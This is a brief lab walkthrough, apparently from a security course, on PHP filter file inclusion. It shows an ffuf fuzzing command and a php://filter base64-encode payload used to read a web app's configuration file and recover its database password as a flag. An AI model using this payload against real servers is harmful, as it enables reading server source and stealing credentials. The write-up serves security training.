 # PHP Filters

#### Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

**Step 1** - Fuzz configuration files:

* Use this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt)
* Fuzz with the following command:
  * <pre><code><strong>ffuf -w /wordlist:FUZZ -u http://SERVER_IP:PORT:/FUZZ.php
    </strong></code></pre>
* Three files found

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Use PHP Filters to read the file content:

* php://filter/read=convert.base64-encode/resource=**configure**

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Read the previous base64 string:

* `echo 'base64 string' | base64 -d`&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
